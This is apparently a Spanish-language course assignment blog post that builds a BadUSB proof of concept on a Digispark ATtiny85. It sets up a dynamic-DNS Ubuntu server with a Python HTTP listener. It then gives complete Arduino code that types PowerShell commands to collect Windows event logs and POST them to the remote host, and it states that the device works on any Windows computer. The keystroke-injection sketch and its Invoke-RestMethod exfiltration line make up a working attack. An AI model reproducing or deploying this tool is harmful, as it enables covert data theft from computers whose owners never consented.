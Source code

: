 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-09-25T03:54:46.649Z
title: Pruena de Concepto Attiny85
slug: tarea-998-prueba-de-concepto
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
description: Prueba de Concepto Attiny85.
---
```


# Tarea 998: Prueba de Concepto Attiny85

## Objetivo

El objetivo de esta prueba de concepto es obtener los logs de un sistema Windows y enviarlos a un servidor remoto.

## Desarrollo

### Configuración del servidor remoto

1. El servidor remoto es una maquina virtual con el sistema `Ubuntu Server 24.04.1 LTS`, la cual usa una connexión de tipo Bridge con IP Dinámica, por tanto se debe configurar un servicio de DNS dinámico para poder acceder a la maquina virtual desde cualquier lugar.

    ![Ubuntu Server](../../assets/images/sisprog/server.png)

2. Se Creó un dominio en [DuckDNS](https://www.duckdns.org/) para poder acceder al servidor remoto desde cualquier lugar.

3. Para configurar el servicio de DNS dinámico se debe instalar el paquete `ddclient`, y configurar el archivo `/etc/ddclient.conf` con los siguientes datos:

    ```bash
        # Configuration file for ddclient generated by debconf
        

        protocol=duckdns \
        use=if, if='tu tarjeta de red' \
        server=www.duckdns.org \
        login='tu usuario' \
        password='tu token' \
        tu_dominio.duckdns.org
    ```

    * `tu tarjeta de red`: Es la tarjeta de red que se esta utilizando, se puede obtener con el comando `ifconfig`. Isntalar el paquete `net-tools` si no se tiene instalado: `sudo apt -y install net-tools`.
    * si deseas activar el servicio de DNS dinámico, se debe ejecutar el siguiente comando:

    ```bash
        sudo systemctl enable ddclient
        sudo systemctl start ddclient
    ```

    * Instalar el paquete `ddclient`:

    ```bash
        sudo apt install -y ddclient
    ```

4. Se activó el firewall de Ubuntu y se abrieron los puertos 22 y 8080.

    ```bash
        sudo ufw enable
        sudo ufw allow 22
        sudo ufw allow 8080
    ```

### Configuración de servidor Python

1. Se creó un servidor básico en Python que escucha en el puerto 8080 y recibe los logs de un cliente.

    ```python
    import os
    from http.server import BaseHTTPRequestHandler, HTTPServer

    class LogHandler(BaseHTTPRequestHandler):
        def do_POST(self):
            if self.path == "/logs":
                content_length = int(self.headers['Content-Length'])
                post_data = self.rfile.read(content_length).decode('utf-8')

                log_file_path = os.path.expanduser("~/logs/windows_logs.txt")

                os.makedirs(os.path.dirname(log_file_path), exist_ok=True)

                with open(log_file_path, "a") as log_file:
                    print(post_data)
                    log_file.write(post_data + "\n")

                self.send_response(200)
                self.end_headers()
            else:
                # 405 Method not allowed
                self.send_response(405)
                self.end_headers()

    def run(server_class=HTTPServer, handler_class=LogHandler):
        server_address = ('', 8080)  # Escuchar en el puerto 8080
        httpd = server_class(server_address, handler_class)
        print("Gatovsky Server Listening at 8080")
        httpd.serve_forever()

    if __name__ == "__main__":
        run()
    ```

    * Para ejecutar el servidor se debe ejecutar el siguiente comando:

        ```bash
            python3 server.py
        ```

    * El servidor escucha en el puerto 8080 y guarda los logs en el archivo `~/logs/windows_logs.txt`. Debes crear la carpeta `logs` si no existe.

    Nota: esto se hizo en el `Home` del usuario.

### Configuración de Arduino IDE 2.x

1. En Archivos > Preferencias > URLs de placas adicionales pega el siguiente enlace: `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` esto permitirá instalar las placas de Digistump.

    ![Digistump](../../assets/images/sisprog/IMG_8763.jpg)

2. En Herramientas > Placa > Gestor de tarjetas busca `Digistump AVR Boards` e instala la versión 1.6.7.
    ![Digistump](../../assets/images/sisprog/IMG_8761.jpg)

3. En Herramientas > Placa selecciona `Digispark (Default - 16.5mhz)`.
    ![Digispark](../../assets/images/sisprog/IMG_8762.jpg)

### Configuración del Attiny85

1. Una vez configurado el IDE Usa el siguiente código en un nuevo Sketch.

    ```c
    #include <DigiKeyboard.h>

    void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
    }

    void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(1000); 
    }

    void typeCommand() {
        DigiKeyboard.println("$logs = Get-EventLog -LogName System -Newest 5 | Out-String");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("$utf8logs = [System.Text.Encoding]::UTF8.GetBytes($logs)");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("Invoke-RestMethod -Uri http://dominio.duckdns.org:8080/logs -Method POST -Body $utf8logs");
        DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

    void setup() {}

    void loop() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(1000);

    typeCommand();

    // Espera 5 segundos antes de repetir (opcional)
    delay(5000);
    }
    ```

    * Se debe reemplazar `my_dominio.duckdns.org` por el dominio que se creó en DuckDNS.

2. Presiona el boton de `Subir` y espera el mensaje del IDE para insertar el Attiny85.
    ![Subir](../../assets/images/sisprog/IMG_8758.jpg)

3. Conecta el Attiny85 a un puerto USB y espera a que suba el código.
    ![Attiny85](../../assets/images/sisprog/IMG_8759.jpg)

4. Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás los logs en el servidor remoto.

![Server Run](../../assets/images/sisprog/IMG_8760.jpg)

![Server Logs](../../assets/images/sisprog/logs.png)
